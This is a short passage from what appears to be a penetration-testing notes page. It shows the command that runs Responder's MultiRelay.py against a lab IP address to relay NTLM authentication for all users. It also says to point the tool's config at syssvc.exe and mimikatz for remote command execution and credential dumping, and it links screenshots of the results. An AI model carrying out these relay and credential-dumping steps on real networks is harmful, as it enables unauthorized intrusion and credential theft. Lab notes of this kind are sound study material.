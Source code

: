 ```text
python /usr/share/responder/tools/MultiRelay.py -t 192.168.56.119 -u ALL
```

if you get error while running the system commmands just edit the multirelay config file and add the right path for syssvc.exe and mimikatz which can be found with ‘locate MultiRelay' commnad:

![](../../../.gitbook/assets/image%20%28215%29.png)

after triggering the host we have this:

![](../../../.gitbook/assets/image%20%28227%29.png)
